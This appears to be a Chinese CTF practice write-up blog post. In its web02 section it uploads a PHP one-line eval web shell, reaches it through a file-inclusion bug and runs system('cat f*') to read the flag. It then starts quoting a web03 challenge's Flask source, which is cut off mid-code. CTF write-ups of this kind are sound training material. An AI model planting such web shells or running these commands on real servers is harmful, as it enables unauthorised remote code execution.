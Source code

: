 ```yaml
---
layout:    post
title:     第一周
subtitle:  学习学习
date:      2021-08-01
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

上传一个一句话``<?php @eval($_POST['hhh']);?>``

给出上传文件路径，不能直接访问，但是我们可以发现在刚开始是文件包含读取的文件，所以还是以包含读取我们的上传路径，可以访问到，然后直接在hackbar上，执行命令：

```
hhh=system('cat f*');
```

### web03

```
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
```